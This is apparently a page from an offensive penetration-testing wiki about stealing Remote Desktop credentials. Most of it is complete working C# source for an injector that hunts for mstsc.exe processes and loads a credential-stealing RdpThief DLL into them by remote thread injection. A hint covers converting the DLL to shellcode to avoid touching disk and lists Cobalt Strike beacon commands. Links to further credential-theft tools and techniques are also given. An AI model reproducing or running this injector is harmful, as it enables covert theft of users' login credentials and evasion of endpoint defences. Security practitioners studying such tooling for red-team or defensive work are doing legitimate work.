 ```yaml
---
description: Remote Desktop Protocol
---
```


# RDP




## RdpThief

* [https://github.com/0x09AL/RdpThief](https://github.com/0x09AL/RdpThief)
* [https://github.com/S3cur3Th1sSh1t/RDPThiefInject](https://github.com/S3cur3Th1sSh1t/RDPThiefInject)
* [https://github.com/snovvcrash/SharpRdpThief](https://github.com/snovvcrash/SharpRdpThief)
* [https://github.com/passthehashbrowns/SharpRDPThief](https://github.com/passthehashbrowns/SharpRDPThief)
* [https://github.com/proxytype/RDP-THIEF](https://github.com/proxytype/RDP-THIEF)

Some custom code that waits for `mstsc.exe` to be run and loads the malicious library into it:

{% code title="RdpThiefInjector.cs" %}
```csharp
using System;
using System.Threading;
using System.Diagnostics;
using System.Collections.Generic;
using System.Runtime.InteropServices;
using System.Text;

namespace RdpThiefInjector
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            string dllName = @"C:\Temp\RdpThief.dll";
            HashSet<int> PIDs = new HashSet<int>();
            Console.WriteLine("[*] Joined the hunt for mstsc.exe processes...");
            while (true)
            {
                Process[] mstscProc = Process.GetProcessesByName("mstsc");
                if (mstscProc.Length > 0)
                {
                    for (int i = 0; i < mstscProc.Length; i++)
                    {
                        int processId = mstscProc[i].Id;
                        if (!PIDs.Contains(processId))
                        {
                            Console.WriteLine($"[+] Detected non-hooked process with PID={processId}");
                            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
                            IntPtr dllAddress = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
                            IntPtr outSize;
                            bool res = WriteProcessMemory(hProcess, dllAddress, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
                            if (res)
                            {
                                Console.WriteLine("[+] WriteProcessMemory succeeded!");
                            }
                            else
                            {
                                Console.WriteLine("[-] WriteProcessMemory failed :(");
                            }
                            IntPtr loadLibraryAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
                            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibraryAddress, dllAddress, 0, IntPtr.Zero);
                            if (hThread != null)
                            {
                                Console.WriteLine("[+] CreateRemoteThread succeeded!");
                                Console.WriteLine($"[*] Process {processId} is now hooked, look for creds in \"{System.IO.Path.GetTempPath()}\"");
                                PIDs.Add(processId);
                            }
                            else
                            {
                                Console.WriteLine("[-] CreateRemoteThread failed :(");
                            }
                        }
                    }
                }
                Thread.Sleep(5000);
            }
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
The DLL can be converted to shellcode with [ConvertToShellcode.py](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py) (sRDI approach) and then be [injected](/pentest/infrastructure/ad/av-edr-evasion/code-injection/process-injectors#classic-process-injection) into the target process. That would help to avoid dropping the DLL to disk:

```
beacon> rdpthief_enable
beacon> rdpthief_dump
beacon> rdpthief_disable
```
{% endhint %}




## Abusing CredSSP / TSPKG

* [https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/](https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/)

